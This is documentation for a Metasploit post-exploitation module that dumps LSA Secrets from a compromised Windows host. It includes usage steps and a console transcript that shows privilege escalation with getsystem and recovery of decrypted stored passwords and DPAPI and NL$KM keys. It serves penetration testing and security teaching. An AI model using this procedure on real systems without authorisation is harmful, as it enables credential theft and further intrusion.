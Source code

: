 ## Vulnerable Application

This module will attempt to enumerate the LSA Secrets keys within the registry. The registry value used is:
`HKEY_LOCAL_MACHINE\\Security\\Policy\\Secrets\\`.

## Verification Steps

1. Start msfconsole
1. Get a shell on a Windows computer, with `SYSTEM` privs.
1. Do: `use post/windows/gather/lsa_secrets`
1. Do: `set session #`
1. Do: `run`
1. You should get LSA Secrets.

## Options

### STORE

If the decrypted values should be stored in the database. This is a tradeoff since there is no way to tell if a decrypted
value is a legitimate password, thus you may fill your database with bad values. Default is `true`.

## Scenarios

### Windows 10

The `DefaultPassword` in this case is legitimate.

```
msf post(windows/gather/lsa_secrets) > run

[*] Executing module against MSEDGEWIN10
[*] Obtaining boot key...
[*] Obtaining Lsa key...
[*] Vista or above system
[-] Could not retrieve LSA key. Are you SYSTEM?
[*] Post module execution completed
msf post(windows/gather/lsa_secrets) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 5...
msf post(windows/gather/lsa_secrets) > run

[*] Executing module against MSEDGEWIN10
[*] Obtaining boot key...
[*] Obtaining Lsa key...
[*] Vista or above system
[+] Key: CachedDefaultPassword
 Decrypted Value: f+;=

[+] Key: DefaultPassword
 Decrypted Value: Passw0rd!

[+] Key: DPAPI_SYSTEM
 Decrypted Value: ,l^sx+S?Heo75jnC

[+] Key: NL$KM
 Decrypted Value: @r&qS(o)~fuyOvW+6l5aaX8k<1d_E/d

[*] Writing to loot...
[*] Data saved in: /home/h00die/.msf4/loot/20201011171021_default_192.168.2.92_registry.lsa.sec_067749.txt
[*] Post module execution completed
msf post(windows/gather/lsa_secrets) > creds
Credentials
===========

host  origin        service  public  private                          realm  private_type  JtR Format
----  ------        -------  ------  -------                          -----  ------------  ----------
      111.111.1.11                   f+;=                                    Password      
      111.111.1.11                   Passw0rd!                               Password      
      111.111.1.11                   ,l^sx+S?Heo75jnC                        Password      
      111.111.1.11                   @r&qS(o)~fuyOvW+6l5aaX8k<1d_E/d         Password  
```
